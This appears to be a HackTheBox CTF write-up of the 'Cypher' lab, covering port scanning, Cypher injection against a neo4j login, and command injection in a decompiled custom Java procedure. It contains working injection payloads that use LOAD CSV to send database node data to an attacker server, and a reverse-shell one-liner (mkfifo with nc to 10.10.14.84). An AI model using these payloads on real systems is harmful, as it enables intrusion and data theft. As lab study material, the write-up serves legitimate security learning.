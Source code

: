 -------------

### CTF: HACKTHEBOX
### LAB-: CYPHER

-------------

![image](https://github.com/user-attachments/assets/98f18401-bf3e-4d72-af9a-48ef1777eaa8)

-------------

- Rustscan's output-:

```bash
❯ rustscan -a cypher.htb -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.57:22
Open 10.10.11.57:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 08:43 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:43
Completed NSE at 08:43, 0.00s elapsed
Initiating Connect Scan at 08:43
Scanning cypher.htb (10.10.11.57) [2 ports]
Discovered open port 22/tcp on 10.10.11.57
Discovered open port 80/tcp on 10.10.11.57
Completed Connect Scan at 08:43, 0.20s elapsed (2 total ports)
Initiating Service scan at 08:44
Scanning 2 services on cypher.htb (10.10.11.57)
Completed Service scan at 08:44, 14.69s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.57.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 7.12s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:44
Completed NSE at 08:44, 0.00s elapsed
Nmap scan report for cypher.htb (10.10.11.57)
Host is up, received user-set (0.20s latency).
Scanned at 2025-03-27 08:43:58 WAT for 25s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Ffuf's output

![image](https://github.com/user-attachments/assets/ceee1d75-8398-4293-b3e3-925b6e6cdc41)

- I discovered this jar in which will later be explained.It is crucial in another stage.

![image](https://github.com/user-attachments/assets/87250fcc-9f25-45fe-84bd-e3e5deb27aff)

- I tested the login page with single quote and got this giant blob of error.

![image](https://github.com/user-attachments/assets/d0fb74a9-3e97-4bc1-8447-46e2a3fadc6d)

- Lets look at it closer with curl because notification box disappears after some seconds.

![image](https://github.com/user-attachments/assets/bb3610b1-c224-4c9b-9544-c050803b49ba)

- I discovered it is a neo4j database which is a graph type of  database.A graph database is defined as a specialized, single-purpose platform for creating and manipulating graphs. Graphs contain nodes, edges, and properties, all of which are used to represent and store data in a way that relational databases are not equipped to do as explained [here](https://www.oracle.com/ng/autonomous-database/what-is-graph-database/).I got an interesting [article](https://hackmd.io/@Chivato/rkAN7Q9NY#Fun-with-Cypher-Injections) to exploit it.The vulnerability is termed `cypher injection`.

---------------------

### Data exfiltration from neo4j db with SSRF [Rabbit hole]

----------------------

- A key method to exfiltrate nodes im a neo4j db is `SSRF`.Before exploiting and reading data, we have to read the nodes and this achieved through the `CALL data.labels()` function.First of all,set a python `http.server`,Query-:

```query
' OR 1=1 WITH 1337 AS x CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://[http server]/[point to an actual file]?help='+d AS y RETURN y//
```
- Result-:

![image](https://github.com/user-attachments/assets/ccc8a69c-14f6-4d86-88d2-7df6555bed74)

- Read nodes with -:
```query 
1' OR 1=1 WITH 1 as a MATCH (f:<node>) UNWIND keys(f) as p LOAD CSV FROM 'http://<server>/<point to a real file>?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

- Result for node `USER`,`SHA1`-:

![image](https://github.com/user-attachments/assets/1be00b57-3d91-43b0-aeaf-c609d019ce64)

- Rabbit hole concluded
- Cypher allows installation of custom functions and the jar file provided by the challenge creators is a custom function tagged as APOC [here](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits).I decompiled the jar file  with a site and this is the output.

```java
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
   @Procedure(
      name = "custom.getUrlStatusCode",
      mode = Mode.READ
   )
   @Description("Returns the HTTP status code for the given URL as a string")
   public Stream<CustomFunctions.StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
      if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
         url = "https://" + url;
      }

      String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
      System.out.println("Command: " + Arrays.toString(command));
      Process process = Runtime.getRuntime().exec(command);
      BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
      BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
      StringBuilder errorOutput = new StringBuilder();

      String line;
      while((line = errorReader.readLine()) != null) {
         errorOutput.append(line).append("\n");
      }

      String statusCode = inputReader.readLine();
      System.out.println("Status code: " + statusCode);
      boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
      if (!exited) {
         process.destroyForcibly();
         statusCode = "0";
         System.err.println("Process timed out after 10 seconds");
      } else {
         int exitCode = process.exitValue();
         if (exitCode != 0) {
            statusCode = "0";
            System.err.println("Process exited with code " + exitCode);
         }
      }

      if (errorOutput.length() > 0) {
         System.err.println("Error output:\n" + errorOutput.toString());
      }

      return Stream.of(new CustomFunctions.StringOutput(statusCode));
   }

   public static class StringOutput {
      public String statusCode;

      public StringOutput(String statusCode) {
         this.statusCode = statusCode;
      }
   }
}
```

- The snippet below is vulnerable to command injection because the url argument used by the custom function `custom.getUrlStatusCode` is passed to a shell statement.We can end the statement with `;` and trigger our arbitrary statement.The statement is a curl statement being executed by the `sh` binary.

```java
 String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
      System.out.println("Command: " + Arrays.toString(command));
      Process process = Runtime.getRuntime().exec(command);
      BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
      BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
      StringBuilder errorOutput = new StringBuilder();

      String line;
```

- POC to pop a rev shell-:

```neo4j
1' OR 1=1 WITH 1337 AS x CALL custom.getUrlStatusCode('http://10.10.14.84:8002/rev.sh?id=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.84 8001 >/tmp/f`') YIELD statusCode LOAD CSV FROM 'http://10.10.14.84:8002/zz?statuscode='+statusCode AS y RETURN y//
```

